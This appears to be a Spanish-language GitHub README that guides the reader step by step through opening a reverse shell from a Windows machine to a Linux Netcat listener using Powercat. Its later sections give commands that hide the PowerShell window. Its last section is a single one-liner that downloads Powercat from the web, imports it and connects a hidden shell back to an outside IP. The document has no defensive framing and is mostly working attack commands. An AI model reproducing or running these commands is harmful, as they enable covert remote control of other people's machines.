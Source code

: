 # RemotePowerShells
Repositorio sobre shell remotas.


# Shell Remota entre Linux y Windows

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   ```
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   ```
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   ```
   powercat -c <ip-address> -p 4444 -ep powershell
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
### Unificar descarga de Powercat, inicio de una shell remota con la ventana de PowerShell oculta con el siguiente comando:
```
Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {Invoke-WebRequest 'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}" 
```
